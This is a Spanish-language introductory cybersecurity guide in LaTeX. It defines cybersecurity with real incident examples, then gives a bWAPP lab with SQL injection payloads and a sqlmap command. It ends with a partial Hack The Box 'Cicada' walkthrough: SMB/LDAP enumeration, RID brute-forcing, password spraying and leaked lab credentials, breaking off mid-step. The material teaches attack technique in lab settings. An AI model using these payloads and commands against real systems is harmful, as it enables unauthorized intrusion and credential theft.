% Options for packages loaded elsewhere
\PassOptionsToPackage{unicode}{hyperref}
\PassOptionsToPackage{hyphens}{url}
\PassOptionsToPackage{dvipsnames,svgnames,x11names}{xcolor}
%
\documentclass[
  letterpaper,
  DIV=11,
  numbers=noendperiod]{scrreprt}

\usepackage{amsmath,amssymb}
\usepackage{iftex}
\ifPDFTeX
  \usepackage[T1]{fontenc}
  \usepackage[utf8]{inputenc}
  \usepackage{textcomp} % provide euro and other symbols
\else % if luatex or xetex
  \usepackage{unicode-math}
  \defaultfontfeatures{Scale=MatchLowercase}
  \defaultfontfeatures[\rmfamily]{Ligatures=TeX,Scale=1}
\fi
\usepackage{lmodern}
\ifPDFTeX\else  
    % xetex/luatex font selection
\fi
% Use upquote if available, for straight quotes in verbatim environments
\IfFileExists{upquote.sty}{\usepackage{upquote}}{}
\IfFileExists{microtype.sty}{% use microtype if available
  \usepackage[]{microtype}
  \UseMicrotypeSet[protrusion]{basicmath} % disable protrusion for tt fonts
}{}
\makeatletter
\@ifundefined{KOMAClassName}{% if non-KOMA class
  \IfFileExists{parskip.sty}{%
    \usepackage{parskip}
  }{% else
    \setlength{\parindent}{0pt}
    \setlength{\parskip}{6pt plus 2pt minus 1pt}}
}{% if KOMA class
  \KOMAoptions{parskip=half}}
\makeatother
\usepackage{xcolor}
\setlength{\emergencystretch}{3em} % prevent overfull lines
\setcounter{secnumdepth}{5}
% Make \paragraph and \subparagraph free-standing
\ifx\paragraph\undefined\else
  \let\oldparagraph\paragraph
  \renewcommand{\paragraph}[1]{\oldparagraph{#1}\mbox{}}
\fi
\ifx\subparagraph\undefined\else
  \let\oldsubparagraph\subparagraph
  \renewcommand{\subparagraph}[1]{\oldsubparagraph{#1}\mbox{}}
\fi


\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}\usepackage{longtable,booktabs,array}
\usepackage{calc} % for calculating minipage widths
% Correct order of tables after \paragraph or \subparagraph
\usepackage{etoolbox}
\makeatletter
\patchcmd\longtable{\par}{\if@noskipsec\mbox{}\fi\par}{}{}
\makeatother
% Allow footnotes in longtable head/foot
\IfFileExists{footnotehyper.sty}{\usepackage{footnotehyper}}{\usepackage{footnote}}
\makesavenoteenv{longtable}
\usepackage{graphicx}
\makeatletter
\def\maxwidth{\ifdim\Gin@nat@width>\linewidth\linewidth\else\Gin@nat@width\fi}
\def\maxheight{\ifdim\Gin@nat@height>\textheight\textheight\else\Gin@nat@height\fi}
\makeatother
% Scale images if necessary, so that they will not overflow the page
% margins by default, and it is still possible to overwrite the defaults
% using explicit options in \includegraphics[width, height, ...]{}
\setkeys{Gin}{width=\maxwidth,height=\maxheight,keepaspectratio}
% Set default figure placement to htbp
\makeatletter
\def\fps@figure{htbp}
\makeatother

\KOMAoption{captions}{tableheading}
\makeatletter
\makeatother
\makeatletter
\@ifpackageloaded{bookmark}{}{\usepackage{bookmark}}
\makeatother
\makeatletter
\@ifpackageloaded{caption}{}{\usepackage{caption}}
\AtBeginDocument{%
\ifdefined\contentsname
  \renewcommand*\contentsname{Table of contents}
\else
  \newcommand\contentsname{Table of contents}
\fi
\ifdefined\listfigurename
  \renewcommand*\listfigurename{List of Figures}
\else
  \newcommand\listfigurename{List of Figures}
\fi
\ifdefined\listtablename
  \renewcommand*\listtablename{List of Tables}
\else
  \newcommand\listtablename{List of Tables}
\fi
\ifdefined\figurename
  \renewcommand*\figurename{Figure}
\else
  \newcommand\figurename{Figure}
\fi
\ifdefined\tablename
  \renewcommand*\tablename{Table}
\else
  \newcommand\tablename{Table}
\fi
}
\@ifpackageloaded{float}{}{\usepackage{float}}
\floatstyle{ruled}
\@ifundefined{c@chapter}{\newfloat{codelisting}{h}{lop}}{\newfloat{codelisting}{h}{lop}[chapter]}
\floatname{codelisting}{Listing}
\newcommand*\listoflistings{\listof{codelisting}{List of Listings}}
\makeatother
\makeatletter
\@ifpackageloaded{caption}{}{\usepackage{caption}}
\@ifpackageloaded{subcaption}{}{\usepackage{subcaption}}
\makeatother
\makeatletter
\@ifpackageloaded{tcolorbox}{}{\usepackage[skins,breakable]{tcolorbox}}
\makeatother
\makeatletter
\@ifundefined{shadecolor}{\definecolor{shadecolor}{rgb}{.97, .97, .97}}
\makeatother
\makeatletter
\makeatother
\makeatletter
\makeatother
\ifLuaTeX
  \usepackage{selnolig}  % disable illegal ligatures
\fi
\IfFileExists{bookmark.sty}{\usepackage{bookmark}}{\usepackage{hyperref}}
\IfFileExists{xurl.sty}{\usepackage{xurl}}{} % add URL line breaks if available
\urlstyle{same} % disable monospaced font for URLs
\hypersetup{
  pdftitle={Seguridad},
  pdfauthor={Luis Jaramillo},
  colorlinks=true,
  linkcolor={blue},
  filecolor={Maroon},
  citecolor={Blue},
  urlcolor={Blue},
  pdfcreator={LaTeX via pandoc}}

\title{Seguridad}
\author{Luis Jaramillo}
\date{2024-08-11}

\begin{document}
\maketitle
\ifdefined\Shaded\renewenvironment{Shaded}{\begin{tcolorbox}[sharp corners, boxrule=0pt, enhanced, breakable, borderline west={3pt}{0pt}{shadecolor}, interior hidden, frame hidden]}{\end{tcolorbox}}\fi

\renewcommand*\contentsname{Table of contents}
{
\hypersetup{linkcolor=}
\setcounter{tocdepth}{2}
\tableofcontents
}
\bookmarksetup{startatroot}

\hypertarget{seguridad-informuxe1tica}{%
\chapter{Seguridad Informática}\label{seguridad-informuxe1tica}}

\textbf{Bienvenidos al fascinante y desafiante mundo de la seguridad
informática}

\textbf{Autor: Luis Enrique Jaramillo Montaño}

Es un placer presentarles esta guía introductoria, especialmente
diseñada para ser una compañera confiable en su viaje hacia la
comprensión de los aspectos fundamentales de la ciberseguridad. Hoy en
día, el entorno digital no es solo un lugar donde almacenamos
información, trabajamos, o nos comunicamos; también es un campo en
constante evolución, lleno de amenazas que requieren conocimiento,
habilidades y atención.

Esta pequeña guía está pensada para proporcionar una base sólida que les
permitirá entender y enfrentar algunos de los ataques informáticos más
comunes y actuales. A lo largo de sus páginas, exploraremos métodos de
ataque que, aunque frecuentemente utilizados, son cada vez más
sofisticados y sutiles. Con una estructura clara y ejemplos prácticos,
nuestro objetivo es que puedan identificar estos riesgos y, más
importante aún, que desarrollen una mentalidad proactiva y crítica para
protegerse a sí mismos, a sus entornos de trabajo, y a sus proyectos
personales en el vasto universo digital.

Sabemos que, para algunos, este campo puede parecer intimidante; sin
embargo, no subestimen su capacidad para aprender y dominar estos temas.
Con dedicación, curiosidad, y un enfoque práctico, estarán listos para
comprender mejor el complejo pero fascinante panorama de la
ciberseguridad.

Estamos convencidos de que el conocimiento sobre seguridad informática
es una herramienta esencial y que todos deberían tener acceso a una
comprensión básica de cómo protegerse en el ámbito digital. Esperamos
que esta guía sea el comienzo de una nueva etapa en su vida, una etapa
donde el conocimiento y la conciencia serán sus mejores defensas frente
a los desafíos digitales.

¡Bienvenidos y que disfruten cada capítulo, cada técnica, y cada consejo
que hemos recopilado para ustedes en esta guía de seguridad!

\part{¿Qué es la ciberseguridad?}

\hypertarget{definiciuxf3n-de-ciberseguridad.}{%
\chapter{Definición de
Ciberseguridad.}\label{definiciuxf3n-de-ciberseguridad.}}

\textbf{¿Qué es la Ciberseguridad?}

En un mundo cada vez más conectado, donde la mayoría de nuestras
actividades cotidianas y profesionales se desarrollan en el ámbito
digital, la ciberseguridad se ha convertido en una disciplina
fundamental. Ciberseguridad no es solo un conjunto de prácticas para
proteger dispositivos y redes; es una mentalidad que nos prepara para
enfrentar y prevenir riesgos en el mundo digital, donde la información
personal, financiera y organizacional puede estar en juego

La ciberseguridad es el conjunto de prácticas, técnicas y tecnologías
diseñadas para proteger sistemas, redes y datos contra accesos no
autorizados, ataques, daños o destrucción. Aunque la ciberseguridad
tiene como objetivo general salvaguardar la confidencialidad, integridad
y disponibilidad de la información, esta disciplina adopta un enfoque
adaptado según el entorno en el que se aplica.

Ciberseguridad en Tecnologías de la Información (TI) En el ámbito de TI,
la ciberseguridad se basa en los principios fundamentales de la CIA:

Confidencialidad: Garantizar que solo los usuarios autorizados tengan
acceso a la información. Integridad: Proteger la precisión y
consistencia de los datos, evitando modificaciones no autorizadas.
Disponibilidad: Asegurar que los datos y sistemas estén accesibles
cuando sean necesarios. Ciberseguridad en Tecnologías Operativas (OT)
Cuando se trata de redes OT, como en entornos industriales y sistemas
críticos de infraestructura (por ejemplo, redes de energía, plantas de
manufactura o transporte), se añaden dos pilares adicionales esenciales
para cubrir las necesidades de seguridad específicas:

Seguridad de las Personas: Prioriza la protección física y la seguridad
de los operadores y personal involucrado en el manejo de sistemas OT,
especialmente en entornos de alto riesgo. Resiliencia: Se enfoca en
asegurar que los sistemas OT puedan continuar operando de manera segura
y confiable, incluso en situaciones de falla o bajo ataque, para evitar
interrupciones críticas en los servicios. Estos pilares adicionales
reflejan la naturaleza crítica y física de los sistemas OT, donde un
fallo en la seguridad no solo representa un riesgo para la información,
sino que también puede impactar directamente en la seguridad de las
personas y en la continuidad de operaciones esenciales.

\hypertarget{importancia-de-la-ciberseguridad.}{%
\section{Importancia de la
Ciberseguridad.}\label{importancia-de-la-ciberseguridad.}}

La ciberseguridad es vital para proteger los sistemas digitales y la
información que se maneja en ellos, ya que cada aspecto de nuestras
vidas y operaciones industriales se encuentra conectado al entorno
digital. Sin la protección adecuada, las organizaciones, los servicios
críticos y los individuos están expuestos a una variedad de amenazas que
pueden afectar la continuidad de las operaciones, la privacidad de los
datos y, en algunos casos, incluso la seguridad física de las personas.

Ejemplos Claves para Comprender su Impacto Robo de Datos Personales:

\begin{itemize}
\tightlist
\item
  Ejemplo: En el sector bancario, la filtración de datos personales,
  como números de cuenta y contraseñas, expone a los usuarios al riesgo
  de fraude. En 2017, el ataque masivo a Equifax comprometió la
  información personal de 147 millones de personas, exponiendo datos
  sensibles como números de seguridad social y tarjetas de crédito, con
  un costo multimillonario para la empresa y un impacto significativo en
  la confianza de los consumidores. Impacto: La ciberseguridad es
  crucial para proteger la privacidad y mantener la confianza en los
  servicios financieros. Paralización de Infraestructuras Críticas:
\end{itemize}

\begin{itemize}
\item
  Ejemplo: Un ciberataque a una planta de energía eléctrica o a una red
  de distribución de agua puede afectar a miles de personas. En 2021, el
  ataque de ransomware a Colonial Pipeline, la principal red de
  distribución de gasolina en la costa este de los EE. UU., obligó a
  cerrar las operaciones durante varios días, provocando escasez y
  aumentos en los precios del combustible. Impacto: La resiliencia y la
  disponibilidad de los sistemas son esenciales en OT para evitar una
  disrupción significativa en infraestructuras críticas que pueden
  afectar directamente a la población. Amenaza a la Seguridad Física:
\item
  Ejemplo: En una planta de manufactura automatizada, un ataque a los
  sistemas de control industrial (ICS) puede manipular el funcionamiento
  de la maquinaria, comprometiendo la seguridad de los operarios. Un
  ejemplo de ello fue el ataque a una planta de tratamiento de agua en
  Oldsmar, Florida, donde un ciberdelincuente intentó elevar
  peligrosamente los niveles de una sustancia química en el agua,
  poniendo en riesgo la salud de la población. Impacto: En sistemas OT,
  la ciberseguridad no solo protege datos, sino también la integridad
  física de los operadores y el público en general. Riesgo Financiero
  para las Empresas:
\item
  Ejemplo: El ransomware es uno de los ataques más comunes y costosos
  para las empresas. En 2020, el fabricante de automóviles Honda fue
  víctima de un ataque de ransomware que paralizó sus sistemas en
  múltiples plantas de producción alrededor del mundo. Esto provocó
  retrasos significativos en la cadena de producción y generó pérdidas
  millonarias. Impacto: La ciberseguridad protege a las empresas de
  costos significativos por interrupciones operativas, pérdida de
  productividad y daño a su reputación. Amenazas a la Confidencialidad
  en el Sector Salud:
\item
  Ejemplo: Los ataques a hospitales y sistemas de salud pueden filtrar
  información médica confidencial y, en algunos casos, poner en riesgo
  la vida de los pacientes. En 2017, el ataque de ransomware WannaCry
  afectó a hospitales en el Reino Unido, bloqueando el acceso a
  expedientes médicos y forzando la cancelación de citas y cirugías.
  Impacto: La ciberseguridad es crucial en sectores como el de la salud,
  donde la confidencialidad y la disponibilidad de los datos son
  fundamentales para la atención segura y efectiva de los pacientes.
\end{itemize}

\part{Ataques}

\hypertarget{section}{%
\chapter{}\label{section}}

INTRODUCCIÓN

INSTALACIÓN DEL LABORATORIO UTILIZANDO DOCKER

docker pull raesene/bwapp docker run -d -p 8080:80 --name bwapp
raesene/bwapp http://localhost:8080/

metasploitable2

ataque 1 SQL Injection (GET/Search) ' or `1' = '1--

' UNION SELECT null, null, null, null, null,null, null --

C:\Python27\python.exe sqlmap.py -u
``http://localhost:8080/sqli\_1.php?title=aa\&action=search''

' UNION SELECT username, password, null, null, null FROM users --

\part{Hack The Box}

\hypertarget{section-1}{%
\chapter{}\label{section-1}}

CIGARRA HTB

\begin{figure}

{\centering 
\includegraphics{Unidades/unidad10/imagenes/1.png}

}

\end{figure}

SO Windows

Dificultad Fácil

IP 10.10.11.35

La siguiente información trata sobre cómo vulnerar esta máquina de hack
the box, para lo cual realizaremos los siguientes pasos

1) Para la enumeración de puertos me he ayudado de la herramienta nmap
con el siguiente comando. sudo nmap -sC -O -Pn 10.10.11.35 Obteniendo a
la salida

\begin{figure}

{\centering 
\includegraphics{Unidades/unidad10/imagenes/2.png}

}

\end{figure}

Aquí se puede observar el listado de los puertos abiertos entre los
cuales se encuentra el 389 perteneciente a ldap

``El puerto 389 es el puerto predeterminado utilizado por el Protocolo
de Acceso Ligero a Directorios (LDAP), en su forma sin cifrar. LDAP es
un protocolo estándar para acceder y administrar servicios de
directorios distribuidos en una red, como el Active Directory (AD) de
Microsoft o servidores LDAP de código abierto como OpenLDAP.''

2) Revisión del puerto 389 LDAP con la herramienta crackmapexec, para lo
cual se utiliza el siguiente comando crackmapexec ldap 10.10.11.35
--users Teniendo como resultado lo siguiente:

\begin{figure}

{\centering 
\includegraphics{Unidades/unidad10/imagenes/3.png}

}

\end{figure}

\begin{figure}

{\centering 
\includegraphics{Unidades/unidad10/imagenes/4.png}

}

\end{figure}

Con ese comando se puede observar que existen recursos compartidos en el
dominio cicada.htb, pero no se ha podido enumerar dado que es un usuario
anónimo, también podemos ver que utiliza el puerto 445 para compartir.

3) Se coloca usuarios por defecto para aprovechar una mala configuración
como admin, como sabes que utiliza el servicio smb cambiamos el ldap.


\includegraphics{Unidades/unidad10/imagenes/5.png}

Podemos conocer que existe un usuario admin

4) Ahora se puede enumerar los recursos compartidos con el comando
crackmapexec smb 10.10.11.35 -d `cicada.htb' -u admin -p ``\,'' --shares


\includegraphics{Unidades/unidad10/imagenes/6.png}

Podemos observar que en dos de esas carpetas HR y IPC\$ tenemos acceso
de lectura.

\begin{enumerate}
\def\labelenumi{\arabic{enumi})}
\setcounter{enumi}{4}
\item
  Usando la herramienta smbclient permite conectar con recursos
  compartidos, y ya que tenemos el usuario admin, con permiso de lectura
  podemos hacerlo haciendo uso del comando

  smbclient -U `admin'
  \textbackslash\textbackslash10.10.11.35\textbackslash HR
\end{enumerate}

\begin{figure}

{\centering 
\includegraphics{Unidades/unidad10/imagenes/7.png}

}

\end{figure}

Con el comando get descargamos el archivo y lo abrimos teniendo lo
siguiente

\begin{figure}

{\centering 
\includegraphics{Unidades/unidad10/imagenes/8.png}

}

\end{figure}

La contraseña: Cicada\$M6Corpb*@Lp\#nZp!8

\begin{enumerate}
\def\labelenumi{\arabic{enumi})}
\setcounter{enumi}{5}
\item
  Tenemos la contraseña, pero al probar con el usuario admin no es su
  contraseña, por ende falta consultar todos los posibles usuarios que
  puedan conectarse, por lo que hacemos uso nuevamente de crackmapexe
  haciendo uso de un ataque de fuerza bruta a los RID(Relative
  Identifier)

  CrackMapExec permite realizar un ataque a los RIDs para enumerar
  usuarios en un dominio. Aquí está el comando que puedes utilizar:
  crackmapexec smb 10.10.11.35 -d cicada.htb -u `admin' -p '\,'
  --rid-brute

  Teniendo como salida algunos usuarios, falta conocer cual usuario
  corresponde con la password
\end{enumerate}


\includegraphics{Unidades/unidad10/imagenes/9.png}

En este punto podremos crear un diccionario de usuarios o comprobar uno
por uno con la contraseña que se encontró.

El diccionario quedaría como se muestra en la figura.


\includegraphics{Unidades/unidad10/imagenes/10.png}

\begin{enumerate}
\def\labelenumi{\arabic{enumi})}
\setcounter{enumi}{6}
\item
  Con el comando crackmapexec smb 10.10.11.35 -d cicada.htb -u
  usuarios.txt -p pass.txt buscamos el usuario correspondiente mediante
  un ataque de diccionario. Dando como resultado el usuario que contiene
  esa password.

  
\includegraphics{Unidades/unidad10/imagenes/11.png}
\item
  Al estar utilizando el protocolo smb, podemos hacer uso de la
  herramienta enum4linux que permite obtener información en entornos de
  AD.

  El comando enum4linux -a -u `michael.wrightson' -p
  `Cicada\$M6Corpb*@Lp\#nZp!8' 10.10.11.35 realiza una enumeración
  exhaustiva en un servidor SMB utilizando las credenciales
  proporcionadas para autenticar y obtener información como usuarios,
  grupos, recursos compartidos, políticas de contraseñas y detalles del
  dominio. Esto es útil para recopilar datos sensibles si las
  credenciales tienen permisos suficientes.
\end{enumerate}


\includegraphics{Unidades/unidad10/imagenes/12.png}

Con este dato se ha obtenido la contraseña aRt\$Lp\#7t*VQ!3 para el
usuario david.orelious

\begin{enumerate}
\def\labelenumi{\arabic{enumi})}
\setcounter{enumi}{8}
\item
  Se utiliza crackmapexe nuevamente para ver las carpetas de acceso que
  tiene cada uno de los usuarios, en la cual se puede observar que el
  usuario David.orelious, tiene acceso a un carpeta adicional.

